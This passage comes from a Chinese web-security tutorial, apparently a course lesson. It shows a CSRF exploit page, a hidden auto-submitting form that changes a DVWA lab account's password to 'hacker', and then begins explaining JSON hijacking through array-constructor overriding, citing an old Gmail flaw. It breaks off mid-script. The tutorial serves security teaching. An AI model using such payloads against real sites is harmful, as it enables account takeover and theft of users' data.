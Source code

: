 <span class="hljs-tag">&lt;<span class="hljs-name">form</span> <span class="hljs-attr">name</span> = <span class="hljs-string">"test"</span> <span class="hljs-attr">action</span> = <span class="hljs-string">"http://127.0.0.1/vulnerabilities/csrf"</span> <span class="hljs-attr">method</span> = <span class="hljs-string">"post"</span> &gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-name">input</span> <span class="hljs-attr">type</span> = <span class="hljs-string">"hidden"</span> <span class="hljs-attr">value</span>=<span class="hljs-string">"hacker"</span> <span class="hljs-attr">name</span>=<span class="hljs-string">"password_new"</span> &gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-name">input</span> <span class="hljs-attr">type</span> = <span class="hljs-string">"hidden"</span> <span class="hljs-attr">value</span>=<span class="hljs-string">"hacker"</span> <span class="hljs-attr">name</span>=<span class="hljs-string">"password_conf"</span> &gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-name">input</span> <span class="hljs-attr">type</span> = <span class="hljs-string">"hidden"</span> <span class="hljs-attr">value</span>=<span class="hljs-string">"Change"</span> <span class="hljs-attr">name</span>=<span class="hljs-string">"Change"</span> &gt;</span>
<span class="hljs-tag">&lt;/<span class="hljs-name">form</span>&gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-name">script</span>&gt;</span><span class="javascript"><span class="hljs-built_in">document</span>.test.submit();</span><span class="hljs-tag">&lt;/<span class="hljs-name">script</span>&gt;</span>
<span class="hljs-tag">&lt;/<span class="hljs-name">html</span>&gt;</span>
</code></pre>
<p data-nodeid="56059">这里是就模拟原网站的表单提交内容设置的，每个 input 都添加 type="hidden" 的属性是为了不在网页中显示，最后再利用 document.test.submit() 去自动提交表单，其中 "test" 是指 form 名单。</p>
<p data-nodeid="56060">如果受害者访问上述包含 exploit.html 的 http://dwz.date/d74a ，就会发起以下请求：</p>
<p data-nodeid="56061"><img src="https://s0.lgstatic.com/i/image/M00/8C/F6/CgqCHl_2hCCAEyT6AABwbigIZJo638.png" alt="Drawing 5.png" data-nodeid="56193"></p>
<div data-nodeid="56062"><p style="text-align:center">图 6：通过 POST 请求利用 CSRF 漏洞</p></div>
<p data-nodeid="56063">DVWA 的 CSRF 题目没有 POST 请求，上述的利用方式主要介绍的是 POST 类型的利用手法。这种方法反而比较常用，相信你在未来的 CSRF 测试中能够用上。</p>
<h3 data-nodeid="56064">JSON 劫持攻击</h3>
<p data-nodeid="56065">JSON（JavaScript Object Notation，JavaScript 对象符号）是一种可以序列化任意数据，并能被 JavaScript 注释器直接处理的简单数据交换格式。我们来看一段 JSON 格式的包含用户信息的数据：</p>
<pre class="lang-json" data-nodeid="56066"><code data-language="json">{&nbsp;
  <span class="hljs-attr">"people"</span>:[&nbsp;
    {
      <span class="hljs-attr">"name"</span>:&nbsp;<span class="hljs-string">"Brett"</span>,
      <span class="hljs-attr">"email"</span>:<span class="hljs-string">"Brett@qq.com"</span>
    },
    {
      <span class="hljs-attr">"name"</span>:<span class="hljs-string">"Jason"</span>,
      <span class="hljs-attr">"Jason@lagou.com"</span>
    }
  ]
}
</code></pre>
<p data-nodeid="56067">JSON 劫持是一种特殊的 CSRF 攻击方式，本质上也是未对请求来源做有效校验导致的，它主要是用来窃取服务器返回的敏感信息。</p>
<p data-nodeid="56068">实现 JSON 劫持主要有两种攻击方式：覆写数据构造器和执行回调函数。</p>
<h4 data-nodeid="56069">覆写数据构造器</h4>
<p data-nodeid="56070">若服务端返回的 JSON 数据中包含一个序列化数组，那攻击者就可以重定义数组构造器，以实现 JSON 数据的访问。比如 2006 年的 Gmail 就曾出现过 JSON 劫持联系人列表的漏洞，漏洞 CGI 位于：</p>
<pre class="lang-java" data-nodeid="56071"><code data-language="java">http:<span class="hljs-comment">//mail.google.com/mail/?_url_scrubbed_</span>
</code></pre>
<p data-nodeid="56072">它会返回联系人列表的 JSON 数据。</p>
<pre class="lang-json" data-nodeid="56073"><code data-language="json">[[<span class="hljs-string">"ct"</span>,<span class="hljs-string">"Your Name"</span>,<span class="hljs-string">"foo@gmail.com"</span>], [<span class="hljs-string">"ct"</span>,<span class="hljs-string">"Another Name"</span>,<span class="hljs-string">"bar@gmail.com"</span>] ]
</code></pre>
<p data-nodeid="56074">因此，可通过覆盖数组构造器来读取 JSON 数据。</p>
<pre class="lang-xml" data-nodeid="56075"><code data-language="xml"><span class="hljs-tag">&lt;<span class="hljs-name">script</span>&gt;</span><span class="javascript">
<span class="hljs-comment">//在网页添加一个 table 表去显示劫持到的联系人信息</span>